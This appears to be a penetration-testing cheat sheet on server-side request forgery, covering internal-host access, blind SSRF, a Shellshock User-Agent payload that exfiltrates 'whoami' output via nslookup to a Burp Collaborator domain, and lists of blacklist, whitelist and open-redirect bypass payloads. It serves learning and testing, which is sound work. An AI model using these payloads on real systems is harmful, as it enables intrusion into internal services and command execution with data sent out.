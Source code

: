 ```yaml
---
description: The website server make HTTP requests to the attacker domain.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# SSRF

Server side request forgery Induce the server-side application to make HTTP requests to an random domain of the attacker's choosing.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:yellow;">SSRF against the server itself</mark>

Attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface for example: http://localhost/admin.

### <mark style="color:yellow;">SSRF against other back-end systems</mark>

Attacker can exploit the SSRF vulnerability to access the other interface by submitting a internal HTTP request (EX: http://192.168.1.105/admin).

### <mark style="color:yellow;">Blind SSRF vulnerabilities</mark>

Response from the back-end request is not returned in the application's front-end response.

#### <mark style="color:purple;">**Find vulnerability:**</mark>

Observe a DNS look-up for the supplied Burp Collaborator domain.

#### <mark style="color:purple;">**Example (Blind SSRF with Shellshock exploitation):**</mark>

```http
GET /path TTP/1.1
Host: test.net
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).aaabbbcccdddeeefff.burpcollaborator.net
...
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Connection: close
```

## <mark style="color:red;">Bypass</mark>

### <mark style="color:yellow;">Bypass blacklist-based</mark>

#### <mark style="color:purple;">Change "127.0.0.1" to:</mark>

```http
http://2130706433
http://017700000001
http://127.1
http://127.0.1
http://0.0.0.0
http://0
http://0x7f000001
http://2130706433
http://017700000001
http://[::]:80
```

* Registering your own domain name that resolves to 127.0.0.1. You can use "spoofed.burpcollaborator.net" for this purpose.
* Obfuscating blocked strings using URL encoding or case variation.&#x20;

#### <mark style="color:purple;">Example:</mark>

```http
value=http://127.1/%25%36%31dmin/delete?username=carlos
```

### <mark style="color:yellow;">Bypass whitelist-based</mark>

* Using "@" char `https://expected-host@evil-host.net`
* Using "#" char `https://evil-host#expected-host.net`
* Create a invalid domain `https://expected-host.evil-host.net`
* Use URL-encode characters to confuse the URL-parsing code `http://localhost:80%2523@evil-host.net/admin`

### <mark style="color:yellow;">Bypassing SSRF filters via open redirection</mark>

<mark style="color:purple;">**Example 1:**</mark>

/product/nextProduct?currentProductId=6\&path=http://192.168.0.68/admin

<mark style="color:purple;">**Example 2:**</mark>

If "/product/stock" vulnerable to SSRF and "/nextProduct" vulnerable to OpenRedirect, Then:

```http
// HTTP request

POST /product/stock vulnerable/1.1
Host: test.net
......
Connection: close

api=/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
